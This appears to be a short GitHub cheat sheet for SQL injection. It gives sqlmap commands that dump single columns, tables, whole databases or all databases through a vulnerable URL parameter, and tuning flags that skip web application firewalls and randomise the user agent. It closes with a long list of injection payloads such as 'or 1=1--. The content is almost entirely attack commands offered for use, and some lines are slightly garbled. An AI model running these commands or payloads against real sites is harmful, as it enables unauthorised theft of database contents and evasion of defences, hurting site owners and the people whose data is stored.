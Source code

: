 						
<h2>SQLmap Usage</h2>


 **To Fetch Only Column's Data**                        
 ```
  sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump
```
 **To Fetch Only All Column & Its Data**          
 ```
sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump
```

 **To Fetch Entire Database's Data** 		     
 ```
sqlmap - u "url?prm=" -p prm -D dbname  --dump
```

 **To Fetch All Databases**
 ```
 sqlmap - u "url?prm=" -p prm --dbs  --dump
``` 
 *or use --dump-all instead of --dump to fetch all databases's all tables and columns*


<h4>Extra Parameter to Optimise SQLmap's Performance</h4>

 * **Parameters**      `--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o `
 
* **Optimised Url**

```
sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o
```


<h2> SQL Injection Confirmation<h2>
 
 ```
 or 1=1 

 ‘or 1=1

 “or 1=1

  or 1=1–

 ‘or 1=1–

 “or 1=1–

  or 1=1#

 ‘or 1=1#

 “or

  1=1#

  or 1=1/*

 ‘or 1=1/*

 “or 1=1/*

  or 1=1;%00

 ‘or 1=1;%00

 “or 1=1;%00

 ‘or’

 ‘or

 ‘or’–

 ‘or–

  or a=a

 ‘or a=a

 “or a=a

  or a=a–

 ‘or a=a —

 “or a=a–

  or ‘a’=’a’

 ‘or ‘a’=’a’

 “or ‘a’=’a’

 ‘)or(‘a’=’a’

 “)”a”=”a”

 ‘)’a’=’a

 ‘or”=’
```
